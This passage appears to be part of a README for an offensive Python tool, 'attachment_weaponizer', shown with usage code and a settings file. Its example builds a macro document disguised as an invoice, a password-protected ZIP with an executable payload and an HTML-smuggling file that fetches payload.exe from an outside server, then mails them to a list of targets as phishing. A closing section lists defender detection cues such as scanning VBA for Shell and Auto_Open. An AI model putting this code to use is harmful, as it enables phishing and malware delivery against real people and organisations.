 ### Batch Creation

```python
from attachment_weaponizer import AttachmentWeaponizer

weaponizer = AttachmentWeaponizer()

# Create multiple attachment types
attachments = [
    weaponizer.create_macro_doc('payload.vba', 'invoice.docm'),
    weaponizer.create_password_zip('payload.exe', password='2024'),
    weaponizer.create_html_smuggling('http://server.com/payload.exe'),
]

# Use different attachments for different targets
for target, attachment in zip(targets, attachments):
    send_phishing_email(target, attachment)
```

## Configuration

Edit `config/settings.py` to customize:

```python
class Settings:
    # Output directory
    DEFAULT_OUTPUT_DIR = "weaponized_attachments"
    
    # ZIP password length
    DEFAULT_ZIP_PASSWORD_LENGTH = 8
    
    # File size limits
    MAX_ATTACHMENT_SIZE = 25 * 1024 * 1024  # 25 MB
    
    # Safety
    REQUIRE_CONFIRMATION = True
    LOG_CREATION = True
```

## Detection and Defense

### How Defenders Detect These Attachments

**Macro Documents:**
- Scan VBA code for suspicious functions (Shell, CreateObject)
- Check for Auto_Open/Document_Open macros
- Analyze macro obfuscation
- Sandbox execution

**ISO Files:**
- Extract and scan contents
- Check for executable files
- Analyze autorun configurations
